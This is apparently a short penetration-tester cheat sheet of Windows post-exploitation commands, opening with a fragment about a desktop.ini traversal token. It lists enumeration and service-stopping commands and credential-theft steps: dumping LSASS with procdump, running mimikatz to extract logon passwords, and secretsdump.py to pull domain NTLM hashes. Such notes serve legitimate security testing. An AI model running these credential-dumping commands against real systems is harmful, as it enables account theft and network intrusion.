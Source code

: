 Note: Attempting to navigate into the new folder will result in hourglass since resource does not exist. Do not put desktop.ini in a high-traffic folder. Placing token will record traversal one level above, as well as into the new folder.

### System/context Enumeration
`whoami`

`hostname`

`ipconfig /displaydns`

### Service enumeration
`net start`

### Service manipulation

`net stop <servicename>`

`net start <servicename>`

`sc stop <servicename>`

`sc start <servicename>`

### ARP cache enumeration
`arp -a`

### Credential gathering
#### Procdump
`procdump[64].exe -accepteula -ma lsass.exe <outputfile>`

Save the output file for parsing offline with mimikatz.

#### Mimikatz
`privilege::debug`

`sekurlsa::logonPasswords full`

#### Secretsdump.py
`secretsdump.py -just-dc-ntlm <fulldomain</<user>@<ipaddress>`

### Various Pillaging

#### Extracting Files from .kbf (NTBackup) files

[https://github.com/sjmurdoch/mtftar](https://github.com/sjmurdoch/mtftar) (works on Linux)
```
mtftar < backup.bkf | tar xvf -
```



More to come...
